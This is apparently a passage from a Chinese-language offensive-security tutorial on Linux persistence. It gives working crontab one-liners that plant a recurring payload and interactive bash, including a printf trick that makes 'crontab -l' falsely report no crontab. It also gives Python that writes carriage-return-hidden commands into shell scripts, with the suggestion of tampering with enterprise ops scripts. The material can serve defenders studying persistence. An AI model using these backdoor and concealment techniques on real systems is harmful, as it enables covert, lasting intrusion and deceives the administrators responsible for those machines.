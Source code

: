 ### 0x05 Cron 后门

在 Linux 系统中，计划任务一般是由 cron 承担，我们可以把 cron 设置为开机时自动启动。cron 启动后，它会读取它的所有配置文件（全局性配置文件 / etc/crontab，以及每个用户的计划任务配置文件），然后 cron 会根据命令和执行时间来按时来调用工作任务。

cron 表达式在线生成：[http://qqe2.com/cron](http://qqe2.com/cron)

```
(crontab -l;echo '\*/1 \* \* \* \* /bin/bash /tmp/1.elf;/bin/bash --noprofile -i')|crontab -


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305213650119-595237820.png)

这样执行会在 crontab 列表里出现，如果是如上执行的话，管理员执行 crontab -l 就能看到执行的命令内容不是特别隐蔽。

那么就有了一个相对的高级用法，下面命令执行后会显示 "no crontab for root"。其实就达到了一个隐藏的效果，这时候管理员如果执行 crontab -l 就会看到显示 "no crontab for root":

```
(crontab -l;printf "\*/1 \* \* \* \* /bin/bash /tmp/1.elf;/bin/bash --noprofile -i;\\rno crontab for \`whoami\`%100c\\n")|crontab -


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214230870-387789665.png)

实际上是他将 cron 文件写到文件中, 而 crontab -l 就是列出了该文件的内容:

```
/var/spool/cron/crontabs/root


```

通常 cat 是看不到这个的，只能利用 less、vim 或者 cat -A 看到，这也是利用了 cat 的一个缺陷，在下一节会主要讲这个。

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305214447271-1226946787.png)

```
#这几个路径都可以存放cron执行脚本,对应的时间不同
/etc/cron.d/ /etc/cron.daily/ /etc/cron.weekly/ /etc/cron.hourly/ /etc/cron.monthly/ 


```

### 0x06 Cat 隐藏

刚刚在 cron 里面提到了 cat 的一个缺陷，可以利用这个缺陷隐藏恶意命令在一些脚本中：这里的示例我就用 hiding-from-cats 里的例子吧。之所以单列出来，个人认为在一些大型企业的运维工具脚本中可以插入恶意代码，利用 cat 的缺陷还可以使管理员无法发现脚本被做手脚。

cat 其实默认使用是支持一些比如 \\r 回车符 \\n 换行符 \\f 换页符、也就是这些符号导致的能够隐藏命令。

使用 python 生成带有换行符的内容 sh：

```
cmd\_h = "echo 'You forgot to check \`cat -A\`!' > oops" # hidden
cmd\_v = "echo 'Hello world!'"                         # visible

with open("test.sh", "w") as f:
output = "#!/bin/sh\\n"
output += cmd\_h + ";" + cmd\_v + " #\\r" + cmd\_v + " " \* (len(cmd\_h) + 3) + "\\n"
f.write(output)


```
